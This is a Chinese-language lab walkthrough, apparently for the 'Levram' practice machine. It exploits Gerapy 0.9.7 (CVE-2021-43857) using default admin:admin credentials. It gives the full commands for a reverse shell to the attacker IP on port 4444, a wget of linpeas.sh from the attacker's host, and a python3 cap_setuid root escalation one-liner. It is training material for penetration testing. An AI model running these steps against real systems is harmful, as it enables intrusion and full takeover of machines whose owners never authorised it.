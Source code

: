 ```yaml
---
description: >-
  Easy - Linux / Gerapy 0.9.7 / CVE-2021-43857 / Capabilities提权 - cap_setuid
  python
---
```


# ✔️ Levram

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和8000

```bash
nmap -sC -sV -oA levram 192.168.124.24 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 检查8000端口上的内容，尝试弱口令登录成功： **admin : admin**

<figure><img src="../../.gitbook/assets/2 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 并发现了当前正在运行的程序及其版本号：**Gerapy v0.9.7**

<figure><img src="../../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 枚举8000端口上的隐藏文件/目录，找到了/admin目录：

<figure><img src="../../.gitbook/assets/4 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在8000端口上的/robots.txt里的/admin目录对应上：

<figure><img src="../../.gitbook/assets/5 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1).png" alt=""><figcaption></figcaption></figure>

* 查看发现是Django Administration登录页面，使用弱口令登录成功：**admin:admin**

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 依次查看并无任何有用的收获：

<figure><img src="../../.gitbook/assets/8 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据之前已获取到的正在运行的程序Gerapy v0.9.7，查找到了公开的可利用漏洞：

<figure><img src="../../.gitbook/assets/9 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了可以直接利用的脚本，无需修改直接执行：

<figure><img src="../../.gitbook/assets/11 (1).png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 执行cve-2021-43857.py：

```bash
python3 cve-2021-43857.py -u http://192.168.193.24:8000 -U admin -P admin -r 192.168.45.244 -p 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/12 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 获取到local.txt：

<figure><img src="../../.gitbook/assets/14 (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传linpeas.sh进行信息收集：

```bash
# Kali：
python3 -m http.server
# target：
wget http://192.168.45.244:8000/linpeas.sh
```

<figure><img src="../../.gitbook/assets/15 (1).png" alt=""><figcaption></figcaption></figure>

* 执行linpeas.sh：

```bash
chmod 777 linpeas.sh
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/16 (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 从linpeas.sh的输出结果中得知Files with capabilities这一项的 **/usr/bin/python3.10 cap\_setuid=ep** 可被利用：

<figure><img src="../../.gitbook/assets/17 (1).png" alt=""><figcaption></figcaption></figure>

* 这是因为python 3.10作为可执行文件，被赋予了cap\_setuid的能力。在GTFOBins中找到了可利用的命令：

<figure><img src="../../.gitbook/assets/18 (1).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 先切换到/bin目录下，因为python在该目录下。然后执行以下命令即可提权到root权限：

```bash
cd /usr/bin
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/19 (1).png" alt=""><figcaption></figcaption></figure>

* 获取到proof.txt：

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>

